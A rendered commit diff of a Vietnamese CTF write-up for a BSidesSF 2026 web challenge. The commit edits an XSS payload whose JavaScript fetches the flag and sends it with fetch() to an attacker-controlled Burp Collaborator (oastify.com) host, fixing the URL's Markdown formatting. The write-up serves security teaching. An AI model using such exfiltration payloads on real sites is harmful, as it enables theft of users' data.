

Before and after one commit to DucTu6789/DucTu6789, a Markdown page: CTFs/BSidesSF_2026_CTF/web-tutorial-1.md, the part around the change. GitHub-like rendering.

```diff
--- a/CTFs/BSidesSF_2026_CTF/web-tutorial-1.md
+++ b/CTFs/BSidesSF_2026_CTF/web-tutorial-1.md
@@ -47,7 +47,7 @@ Ta viết một đoạn mã JavaScript thực hiện 2 hành động liên tiế
     .then(response => response.text())
     .then(data => {
         // Bước 2: Tuồn dữ liệu ra máy chủ do attacker kiểm soát (Burp Collaborator)
-        let exfilUrl = '[https://gl5wliclr8yyax0z7pwct8oay14ssjg8.oastify.com/?flag=](https://gl5wliclr8yyax0z7pwct8oay14ssjg8.oastify.com/?flag=)' + encodeURIComponent(data);
+        let exfilUrl = 'https://gl5wliclr8yyax0z7pwct8oay14ssjg8.oastify.com/?flag' + encodeURIComponent(data);
         fetch(exfilUrl);
     });
 </script>
```
